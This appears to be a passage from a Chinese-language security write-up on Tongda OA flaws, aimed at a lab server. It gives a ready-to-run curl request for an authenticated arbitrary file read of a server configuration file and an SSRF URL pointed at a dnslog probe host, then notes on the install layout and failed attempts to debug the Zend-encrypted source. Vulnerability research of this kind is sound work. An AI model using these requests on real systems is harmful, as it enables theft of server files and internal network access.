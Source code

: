 [http://192.168.0.116//general/approve_center/archive/getTableStruc.php](http://192.168.0.116//general/approve_center/archive/getTableStruc.php)

绝对路径等

### <a class="reference-link" name="8%EF%BC%8C%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96(%E9%9C%80%E8%A6%81%E7%99%BB%E5%BD%95)"></a>8，任意文件读取(需要登录)

```
curl "http://192.168.0.116/ispirit/im/photo.php?AVATAR_FILE=c:/oa/bin/redis.windows.conf&amp;UID=1" &gt; 1.txt --cookie "PHPSESSID=neulied1e0s35tp9u1vcdbeea5; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=c05b8089"
```

### <a class="reference-link" name="9%EF%BC%8Cssrf(%E9%9C%80%E8%A6%81%E7%99%BB%E5%BD%95)"></a>9，ssrf(需要登录)

```
http://192.168.0.116/pda/workflow/img_download.php?PLATFORM=dd&amp;ATTACHMENTS=wqx0mc.dnslog.cn
```



## 复现

首先安装好之后，目录如下

```
2021/03/08  16:06    &lt;DIR&gt;          .
2021/03/08  16:06    &lt;DIR&gt;          ..
2021/03/08  15:40    &lt;DIR&gt;          attach
2021/03/08  15:40    &lt;DIR&gt;          bin
2021/03/08  15:40    &lt;DIR&gt;          data5
2021/03/08  15:40    &lt;DIR&gt;          logs
2021/03/08  15:40    &lt;DIR&gt;          MyAdmin
2021/03/08  15:40    &lt;DIR&gt;          mysql5
2021/03/08  15:40    &lt;DIR&gt;          nginx
2016/09/08  17:32             3,606 readme.txt
2021/03/08  15:40    &lt;DIR&gt;          tmp
2021/03/08  15:42    &lt;DIR&gt;          webroot
2021/03/08  15:42    &lt;DIR&gt;          帮助文档
```

attach是oa专门用来存放上传附件的目录

网站源码在webroot，使用zend进行了加密

通达oa使用的都是自带的离线版的nginx和mysql，redis等，所以直接一键安装，别的都不用管

这样就导致没有好的办法动态调试。

直接自己把解密的php在用Zend Guard7加密替换原php文件，尝试这样debug

会报500

可能是加密的方式不对，暂时没好的办法

